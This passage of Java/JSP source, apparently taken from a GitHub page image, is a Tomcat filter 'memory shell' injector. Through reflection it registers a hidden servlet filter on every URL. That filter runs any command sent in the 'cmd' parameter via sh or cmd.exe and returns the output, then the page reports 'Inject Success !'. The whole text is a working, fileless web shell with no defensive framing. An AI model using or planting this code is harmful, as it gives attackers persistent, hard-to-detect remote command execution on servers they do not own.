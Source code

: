 ```
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null) {
                    boolean isLinux = true;
                    String osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                        isLinux = false;
                    }
                    String[] cmds = isLinux ? new String[] {"sh", "-c", req.getParameter("cmd")} : new String[] {"cmd.exe", "/c", req.getParameter("cmd")};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    Scanner s = new Scanner( in ).useDelimiter("\\a");
                    String output = s.hasNext() ? s.next() : "";
                    servletResponse.getWriter().write(output);
                    servletResponse.getWriter().flush();
                    return;
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }

            @Override
            public void destroy() {

            }

        };

        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name, filterConfig);
        out.print("Inject Success !");
    }
%>
```